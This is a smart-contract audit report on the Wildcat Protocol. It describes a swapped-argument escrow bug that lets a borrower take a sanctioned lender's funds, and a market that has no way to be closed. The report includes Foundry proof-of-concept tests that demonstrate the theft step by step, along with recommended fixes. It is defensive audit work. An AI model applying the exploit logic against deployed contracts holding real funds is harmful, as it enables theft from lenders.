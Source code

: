# The Wildcat Protocol

The code under review can be found in [2023-10-wildcat](https://github.com/code-423n4/2023-10-wildcat).

## Findings Summary

| ID                                                                                                                                                  | Title                                                         | Severity |
| --------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------- | -------- |
| [H-01](https://github.com/kazantseff/audits/blob/main/contests/2023-10-wildcat.md#h-01-borrower-will-steal-lenders-funds-if-lender-gets-sanctioned) | Borrower will steal lender's funds if lender gets sanctioned. | High     |
| [H-02](https://github.com/kazantseff/audits/blob/main/contests/2023-10-wildcat.md#h-02-missing-function-to-close-a-market)                          | Missing function to close a market.                           | High     |

## [H-01] Borrower will steal lender's funds if lender gets sanctioned.

### Vulnerability Details

In an event if lender gets sanctioned, borrower can call `nukeFromOrbit()` to block him from interacting with market, which will transfer all of lender's market tokens to an escrow. Also if a lender tries to execute a withdrawal while being sanctioned, protocol will automatically block him and transfer all of his money to a newly created escrow. This functionality exists to ensure a sanctioned address won't poison everyone else. But in the current implementation if a lender gets sanctioned, borrower is able to steal all of his funds that are to be transferred to an escrow.

When lender gets blocked, an escrow is deployed through a function in `WildcatSanctionsSentinel.sol`:

```solidity
function createEscrow(
    address borrower,
    address account,
    address asset
  ) public override returns (address escrowContract) {
```

Both time this function is called in `_blockAccount()` and `executeWithdrawal()` the order of arguments passed into the function is wrong.

```solidity
address escrow = IWildcatSanctionsSentinel(sentinel).createEscrow(
          accountAddress,
          borrower,
          address(this)
```

The account parameter in escrow will actually be set to borrower, meaning funds that should be transferred back to lender in the `releaseEscrow()` function will be transferred to borrower:

```solidity
function releaseEscrow() public override {
    if (!canReleaseEscrow()) revert CanNotReleaseEscrow();

    uint256 amount = balance();

    IERC20(asset).transfer(account, amount);

    emit EscrowReleased(account, asset, amount);
  }
}
```

### Impact

Borrower will steal all of the lender's assets.

### Proof Of Concept

```js
function test_BorrowerCanStealLendersDepositOfMarketToken() external {
       address asset = market.asset();
        // Alice deposits 1e18
        _deposit(alice, 1e18);
        assertEq(market.balanceOf(alice), 1e18);
        // Alice gets sanctioned
        sanctionsSentinel.sanction(alice);
        // NukeFromOrbit is called
        market.nukeFromOrbit(alice);
        assertEq(market.balanceOf(alice), 0);

        // Escrow is deployed to this address
        address escrow = sanctionsSentinel.getEscrowAddress(
            alice,
            borrower,
            address(market)
        );
        // Now all balance of alice is transferred to escrow
        assertEq(market.balanceOf(escrow), 1e18);
        // At this point balance of the borrower is 0
        assertEq(market.balanceOf(borrower), 0);
        // Release Escrow is called, which should:
        // 1. Revert as alice is still sanctioned
        // 2. If alice would not have been sanctioned, it should've transferred escrow balance to her
        IWildcatSanctionsEscrow(escrow).releaseEscrow();
        console.log("Escrow Balance", market.balanceOf(escrow));
        console.log("Borrower Balance of Market tokens", market.balanceOf(borrower));
        // Now all of the alice balance was transferred to borrower
        assertEq(market.balanceOf(borrower), 1e18);
        assertEq(market.balanceOf(alice), 0);

        address controller = market.controller();
        // Now borrower can withdraw her balance
        vm.startPrank(borrower);
        address[] memory lenders = new address[](1);
        lenders[0] = borrower;
        address[] memory markets = new address[](1);
        markets[0] = address(market);
        // Authorize borrower as a lender in order to withdraw
        IWildcatMarketController(controller).authorizeLenders(lenders);
        IWildcatMarketController(controller).updateLenderAuthorization(
            borrower,
            markets
        );
        uint256 balanceBorrower = IERC20(asset).balanceOf(borrower);
        console.log("Balance of borrower before withdrawal", balanceBorrower);
        market.queueWithdrawal(1e18);
        uint256 batchDuration = market.withdrawalBatchDuration();
        uint32 expiry = uint32(block.timestamp + batchDuration);
        skip(batchDuration);
        market.executeWithdrawal(borrower, expiry);
        uint256 balanceBorrowerAfter = IERC20(asset).balanceOf(borrower);
        assertEq(balanceBorrowerAfter, 1e18);
        console.log(
            "Balance of borrower after withdrawal",
            balanceBorrowerAfter
        );
    }

    function test_BorrowerCanStealLendersDepositOfUnderlying() external {
        address asset = market.asset();
        _deposit(alice, 1e18);
        // address of the escrow that will be deployed for alice
        address escrow = sanctionsSentinel.getEscrowAddress(
            alice,
            borrower,
            asset
        );
        address[] memory lenders = new address[](1);
        lenders[0] = alice;
        address[] memory markets = new address[](1);
        markets[0] = address(market);
        // Sanction alice
        sanctionsSentinel.sanction(alice);
        vm.startPrank(alice);
        // Alice queues a withdrawal
        market.queueWithdrawal(1e18);
        uint256 batchDuration = market.withdrawalBatchDuration();
        uint32 expiry = uint32(block.timestamp + batchDuration);
        skip(batchDuration);
        // Because she is blocked, here balance is transferred to an escrow
        market.executeWithdrawal(alice, expiry);
        vm.stopPrank();

        uint256 balanceOfEscrowBeforeRelease = IERC20(asset).balanceOf(escrow);
        console.log("Balance Of Escrow", balanceOfEscrowBeforeRelease);
        // Now releaseEscrow is called
        // It should revert since Alice is still sanctioned
        // And if she was not sanctioned, it should transfer the balance of underlying to her
        vm.prank(borrower);
        IWildcatSanctionsEscrow(escrow).releaseEscrow();
        // Balance of escrow has been transferred
        uint256 balanceOfEscrowAfterRelese = IERC20(asset).balanceOf(escrow);
        console.log(
            "Balance Of Escrow After Relese",
            balanceOfEscrowAfterRelese
        );
        // But it was transferred to the borrower
        uint256 balanceOfBorrowerAfterRelease = IERC20(asset).balanceOf(
            borrower
        );
        console.log(
            "Balance Of Borrower After Release",
            balanceOfBorrowerAfterRelease
        );
    }
```

### Recommended Mitigation Steps

When calling `createEscrow()` ensure that order of arguments passed into a function is correct.

```diff
address escrow = IWildcatSanctionsSentinel(sentinel).createEscrow(
-         accountAddress,
+         borrower,
-         borrower,
+         accountAddress,
          address(this)
```

## [H-02] Missing function to close a market.

### Vulnerability details

Market has a function `closeMarket()` that terminates a vault. The vault APR is set to 0% and the borrower is required to make a full return of all outstanding assets. Borrower may want to exercise this function in an event of lenders not withdrawing their assets and the borrower paying to much interests. But in current implementation there is no way to call this function.

```solidity
function closeMarket() external onlyController nonReentrant {
```

`closeMarket()` function has `onlyController` modifier, which means that it can only be called from a controller that deployed this market. In the controller contract there is no function that calls `closeMarket()`, which means there is no way to close the market.

### Recommended Mitigation Steps

Implement a way to close market, or change the modifier to onlyBorrower, that way borrower will be able to call it directly and not from controller.
